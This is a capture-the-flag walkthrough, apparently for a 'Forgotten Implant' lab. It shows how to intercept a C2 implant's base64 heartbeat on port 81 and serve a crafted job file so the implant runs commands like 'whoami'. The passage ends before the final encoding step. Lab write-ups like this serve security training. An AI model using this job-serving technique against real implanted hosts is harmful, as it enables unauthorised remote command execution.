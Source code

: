 ![Wireshark](/img/forgotten_implant/wireshark.png "Wireshark Packet Capture")

Now we know that our C2 is beaconing back to us on port 81 (http), we should start up a netcat listener on port 81 to see what is being requested.

![Netcat Listener Port 81](/img/forgotten_implant/nc_p81.png "NC Listening On Port 81")

### C2 Heartbeat On Port 81

```sh
GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDctMzBUMTI6MDQ6MDEuNjA5MzE5IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1
Host: 10.11.0.200:81
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```
Above is the heartbeat request from the C2. We can immediately see base64 encoded data being requested.  Take this base64 data and decode it.  I will use Cyberchef but this can easily be don from the terminal too.

![Base64 Decode](/img/forgotten_implant/heartbeat.png "Decode Base64 Data")

Decoded Data: `{"time": "2023-07-30T12:04:01.609319", "systeminfo": {"os": "Linux", "hostname": "forgottenimplant"}, "latest_job": {"job_id": 0, "cmd": "whoami"}, "success": false}`
This is JSON format of key value pairs.

My understanding of this, is that the C2 is calling back to our box for commands to execute on the target.  The 'latest_job' needs a job id and a command to run. The C2 is looking for a job in `get-job/ImxhdGVzdCI=`, but this does not exist on our box. We need to create a folder called 'get-jobs' and then create a file call 'ImxhdGVzdCI=' inside of it.

![404 Error](/img/forgotten_implant/404.png "404 Error")

**Create Job File.**

We run a python3 http server to host our 'Job File'

![Job File Created](/img/forgotten_implant/job_file.png "Job Files Now Exists")

The C2 implant expects a jobs file to have commands to run from the 'ImxhdGVzdCI=' file in the json format `{"job_id": 0, "cmd": "whoami"}`.
Add the line `{"job_id": 0, "cmd": "whoami"}` into our new file 'ImxhdGVzdCI=' and run the python web server on port 81 again to see if we are still getting the 404 error.

![File Exists](/img/forgotten_implant/new_response.png "File Exists")

Now the file exists we can see 'job-result' with more base64 encoded data. Let's decode this now.

![Job Result](/img/forgotten_implant/job_result.png "Job Result Base64")
The result is 'Encoding error" which means our file contents may need to be base64 encoded too. Let's try base64 encoding our json data.
